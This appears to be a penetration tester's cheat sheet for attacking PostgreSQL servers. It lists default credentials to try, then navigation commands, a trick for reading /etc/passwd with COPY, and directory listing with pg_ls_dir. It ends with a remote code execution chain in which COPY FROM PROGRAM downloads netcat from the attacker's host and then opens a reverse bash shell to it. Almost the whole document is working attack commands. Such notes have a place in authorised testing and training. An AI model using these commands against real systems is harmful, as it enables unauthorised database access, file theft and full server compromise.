 ```yaml
---
category: Uncategorized
tags: []
---
```

Try logging in with the following command and common creds:

```bash - kali
psql -h $TARGET -U postgres -p 5432
```

postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password

#### Database navigation
List all databases
```sql - postgresql
\l
```

Use specific database
```sql - postgresql
\c <DATABASE>
```

List all tables in current database
```sql - postgresql
\dt
```

Describe a table
```sql - postgresql
\d <TABLENAME>
```

Get user roles
```sql - postgresql
\du+
```


#### Read a file
```sql - postgresql
CREATE TABLE demo(t text);
```

```sql - postgresql
COPY demo from '/etc/passwd';
```

```sql - postgresql
SELECT * FROM demo;
```

#### Directory traversal
```sql - postgresql
select pg_ls_dir('./');
```

#### Remote Code Execution

In Kali:
```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

In postgres:

```sql - postgresql
\c postgres;
```

Clean up after yourself
```sql - postgresql
DROP TABLE IF EXISTS cmd_exec;
```

Create the table you want to hold the command output
```sql - postgresql
CREATE TABLE cmd_exec(cmd_output text);
```

Run the system command via the COPY FROM PROGRAM function
```sql - postgresql
COPY cmd_exec FROM PROGRAM 'wget http://$KALI/nc';
```

```sql - postgresql
DELETE FROM cmd_exec;
```

![[rlwrap]]

```sql - postgresql
COPY cmd_exec FROM PROGRAM 'nc -n $KALI 80 -e /usr/bin/bash';
```
